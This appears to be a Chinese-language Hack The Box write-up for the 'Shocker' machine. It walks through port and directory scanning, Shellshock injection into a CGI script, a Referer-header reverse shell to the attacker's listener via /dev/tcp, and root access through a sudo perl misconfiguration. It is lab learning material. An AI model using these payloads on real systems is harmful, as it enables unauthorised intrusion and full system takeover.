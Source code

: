 ```yaml
---
title: Shocker
date: 2020-11-10 05:34:53
category: Hack The Box
---
```


# Shocker Writeup

![](./1.png)

## 0x01 信息收集
就给一个 IP，不扫端口你还能咋地，`nmap` 走起来。
### 1、TCP Scan
``` java
nmap -A -p- -oA nmap/tcp 10.10.10.56
```
发现两个开放端口。
- **80**: apache 2.4.18，可能是漏洞版本，开放了 web 页面，title 无
- **2222**: OpenSSH 7.2p2，操作系统为 ubuntu linux

![](./2.png)
### 2、UDP Scan
``` java
nmap -sU -A -p- -oA nmap/udp 10.10.10.56
```
无结果。

**共开放了 `tcp 80、2222` 端口。**

## 0x02 漏洞利用
根据端口逐一突破。

### 1、Port 80
Google 和 nmap 找了 apache 2.4.18 漏洞，无结果，目前只能从 web 入手。
80端口，web 应用，浏览器打开，就一个首页带个图片，没有功能按钮，看了下 console 没有什么提示，翻了下主页 html 也无发现。

![](./3.png)

目前为止没有入口，只能先扫下目录，用 dirbuster 跑默认字典，只有这几个结果。

![](./4.png)
**- icon**: 图片目录
**- cgi-bin**: 通用网关接口，可能存在 cgi 漏洞

cgi 使得用户可以通过浏览器执行脚本，这里需要找到具体的脚本路径，一般脚本位于 `/cgi-bin/*`，以此为 url 基础再跑一次扫描，限制后缀为 `.php,.sh,.py,.cgi,.pl`

![](./5.png)

发现存在脚本，路径为 `/cgi-bin/user.sh`

#### 手工利用

浏览器打开 `http://10.10.10.56/cgi-bin/user.sh`，burpsuite 抓包，会下载一个 `user.sh`（不知有何卵用）。
![](./17.png)

根据 cgi 漏洞，会在请求头里传递一个函数，后面跟着要执行的命令，构造方式比较复杂，懒得构造的我借助一下 `nmap`。
查过漏洞后知道有个代号叫 `shellshock`，正好也跟盒子名呼应，可以根据这个去查。
``` bash
cd /usr/share/nmap/scripts
ll | grep shellshock
```
![](./6.png)
不知道这个代号也没关系，通过关键字一样查，根据 url 参数，发现一个匹配的。
``` bash
cd /usr/share/nmap/scripts
grep "cgi-bin" -R ./ | grep -v cve
```
![](./7.png)

从脚本内容中找到 usage。

![](./8.png)
使用脚本打一下漏洞，地址指向 `burpsuite:8080`，同时配置 `burpsuite:8080` 重定向到靶机 `10.10.10.56:80`，这样扫描流量就会经过 burp 留下记录，方便后续调试。
``` java
nmap -sV -p8080 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 127.0.0.1
```
![](./9.png)
纳尼，没有扫出来？!

![](./10.png)
不慌，先看下具体请求。这里在三个 header 中注入了 sh 命令，执行结果在响应中可见，存在 RCE。

![](./11.png)
> #### 格式的坑
> 注意到下面还有条记录，执行 `ls` 返回 `500` 异常，这里经过调查发现有几个格式的坑，格式没对就不会回显或报异常。
> 此处因为 nmap 脚本有 bug，payload 少了一个 echo 导致扫描异常。
> 
> ![](./12.png)
> - 想正常回显，`() { :;};` 后面一定要先跟 `echo;`，再接上命令比如 `/bin/ls`
> - 命令一定要用绝对路径，比如 `ls` 要改成 `/bin/ls`
> 
> 所以这里正确构造应该是：`() { :;}; echo; /bin/ls /`。
> 
> ![](./13.png)
> 修改 nmap 脚本，把当 "cmd 为空" 时的 `echo;` 挪到下面。
> 
> ![](./18.png)
> ![](./19.png)
> 以 `whoami` 测试，返回用户名 `shelly`，扫描功能正常。
> ``` java
> nmap -sV -p8080 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=/usr/bin/whoami 127.0.0.1
> ```
> ![](./20.png)

综上所述，kali 监听 4444，发送反弹 shell 命令，获取到 `普通用户 shelly` 权限。
``` text
GET /cgi-bin/user.sh HTTP/1.1
Referer: () { :;}; echo;/bin/bash -i >& /dev/tcp/10.10.14.2/4444 0>&1
Host: localhost:8080
Connection: close
```
![](./14.png)

> **MSF**
> 比较简单啦，晚点再补充。

### 2、Port 2222 
没研究 233

## 0x03 提权
先检查 sudo 权限表配置 `sudo -l`，发现可以免密执行 `perl` 脚本，得。

![](./15.png)
在刚刚 `shell` 中 sudo 执行一句话 perl `/bin/bash`，获得 root 权限。
``` bash
sudo perl -e 'exec("/bin/bash")'
```
![](./16.png)

## 0x04 攻击节点
#### 端口扫描 -> 目录扫描 -> 80.cgi-bin(shellshock)(shelly) -> sudo 配置不当提权(root)

## 0x05 学到什么
#### 1、对付 web 应用，没有入口的时候爬目录
#### 2、提权先考虑 sudo 配置不当，或利用 sudo 相关提权漏洞